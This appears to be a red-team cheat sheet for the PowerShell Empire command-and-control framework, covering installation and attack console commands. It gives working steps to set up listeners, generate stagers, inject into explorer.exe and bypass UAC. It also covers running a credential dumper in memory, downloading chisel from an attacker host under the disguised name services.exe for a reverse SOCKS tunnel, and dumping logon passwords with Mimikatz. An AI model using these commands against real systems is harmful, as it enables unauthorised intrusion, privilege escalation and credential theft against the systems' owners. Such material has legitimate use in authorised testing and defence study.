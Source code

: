 # Empire

## Empire

* ​[https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)​

## Install <a href="#install" id="install"></a>

* ​[https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)​

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git$ cd Empire$ sudo ./setup/install.sh$ sudo poetry install
```

To compile C# agents ([Covenant](https://github.com/cobbr/Covenant) and [Sharpire](https://github.com/0xbadjuju/Sharpire)) [install](https://docs.microsoft.com/en-us/dotnet/core/install/linux-debian#supported-distributions) .NET SDK 3.1:

```
$ wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb$ sudo dpkg -i packages-microsoft-prod.deb$ rm packages-microsoft-prod.deb​$ sudo apt-get update; \  sudo apt-get install -y apt-transport-https && \  sudo apt-get update && \  sudo apt-get install -y dotnet-sdk-3.1​$ sudo apt-get update; \  sudo apt-get install -y apt-transport-https && \  sudo apt-get update && \  sudo apt-get install -y aspnetcore-runtime-3.1
```

## Run <a href="#run" id="run"></a>



```
$ ./ps-empire server [--restip 127.0.0.1 --username snovvcrash --password 'Passw0rd!']$ ./ps-empire client
```

Reset the database:

```
$ ./ps-empire server --reset
```

## Cheatsheet <a href="#cheatsheet" id="cheatsheet"></a>

Prepare a listener:

```
(Empire) > listeners(Empire: listeners) > uselistener http(Empire: uselistener/http) > set Name http1(Empire: uselistener/http) > set Host 10.10.13.37(Empire: uselistener/http) > set Port 80(Empire: uselistener/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher(Empire: usestager/multi/launcher) > set Listener http1(Empire: usestager/multi/launcher) > set OutFile pwsh.ps1(Empire: usestager/multi/launcher) > generate
```

Generate a C# stager:

```
(Empire: listeners) > useplugin csharpserver(Empire: useplugin/csharpserver) > set status start(Empire: useplugin/csharpserver) > execute(Empire: useplugin/csharpserver) > usestager windows/csharp_exe(Empire: usestager/windows/csharp_exe) > set Listener http1(Empire: usestager/windows/csharp_exe) > set OutFile csharp.exe(Empire: usestager/windows/csharp_exe) > generate
```

Re-inject into an interactive process (e.g., `explorer.exe`):

```
(Empire: listeners) > agents(Empire: agents) > rename LKH7SD3V A1(Empire: agents) > interact A1(Empire: A1) > sysinfo(Empire: A1) > shell Get-Process explorer(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv(Empire: A1) > usemodule privesc/bypassuac_fodhelper(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e.g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv(Empire: A1) > usemodule management/invoke_script(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e.g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a custom Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "token::elevate" "ts::logonpasswords" "exit"'(Empire: powershell/credentials/mimikatz/command) > run
```

## Plugins <a href="#plugins" id="plugins"></a>

* ​[https://github.com/BC-SECURITY/SocksProxyServer-Plugin](https://github.com/BC-SECURITY/SocksProxyServer-Plugin)​
* ​[https://github.com/BC-SECURITY/ChiselServer-Plugin](https://github.com/BC-SECURITY/ChiselServer-Plugin)​

## Customizing Agents <a href="#customizing-agents" id="customizing-agents"></a>

* ​[https://s3cur3th1ssh1t.github.io/Customizing\_C2\_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing\_C2\_Frameworks/)
